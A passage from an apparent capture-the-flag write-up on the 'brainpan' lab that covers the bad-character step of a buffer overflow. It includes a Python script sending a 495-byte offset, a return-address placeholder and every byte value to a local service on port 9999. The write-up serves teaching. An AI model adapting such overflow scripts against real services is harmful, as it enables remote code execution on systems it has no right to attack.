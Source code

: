 ![](/assets/img/thm/linux/brainpan/42424242.png)

### Step 3: Identifying bad characters (`ollydbg`)

In order to generate a shellcode that will work, we have to identify the bad characters first:

```python
import socket
import time
import sys

# \x00
badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

offset = 495
buffer = b"A" * offset + b"B" * 4 + badchars
target = '127.0.0.1'
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send((b"                          >> " + buffer))
s.close()
```
